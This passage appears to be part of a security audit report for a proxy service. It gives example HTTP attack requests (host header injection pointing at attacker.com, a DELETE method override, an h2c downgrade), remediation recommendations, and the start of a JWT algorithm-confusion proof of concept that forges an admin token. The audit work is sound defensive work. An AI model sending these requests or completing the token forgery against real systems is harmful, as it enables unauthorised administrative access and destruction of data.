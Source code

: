 ### 1. Host Header Injection
```http
GET /admin HTTP/1.1
Host: internal.service.local
X-Forwarded-Host: attacker.com
```

### 2. HTTP Method Override
```http
POST /readonly-endpoint HTTP/1.1
X-HTTP-Method-Override: DELETE
```

### 3. Protocol Downgrade
```http
GET /secure-endpoint HTTP/1.1
Upgrade: h2c
Connection: Upgrade
```

## Recommendations

### Immediate Actions (Critical/High)
1. **Fix JWT Algorithm Confusion**: Implement strict algorithm validation
2. **Sanitize Path Traversal**: Add proper path validation in vault provider
3. **Implement Request Validation**: Add comprehensive input sanitization
4. **Add Rate Limiting**: Prevent timing attacks and brute force

### Medium-term Actions
1. **Security Headers**: Implement comprehensive security header middleware
2. **Audit Logging**: Add detailed security event logging
3. **Input Validation**: Implement comprehensive input validation framework
4. **Dependency Management**: Automate dependency vulnerability scanning

### Long-term Actions
1. **Security Testing**: Implement automated security testing in CI/CD
2. **Penetration Testing**: Regular third-party security assessments
3. **Security Training**: Developer security awareness training
4. **Threat Modeling**: Comprehensive threat modeling for proxy architecture

## Proof of Concept Code

### JWT Algorithm Confusion Attack
```python
import jwt
import requests
from cryptography.hazmat.primitives import serialization

# Load RSA public key from JWKS
public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA...
-----END PUBLIC KEY-----"""

# Create malicious payload
payload = {
    "sub": "admin",
    "aud": "my-api", 
    "iss": "https://id.example.com",
    "exp": 9999999999
}

```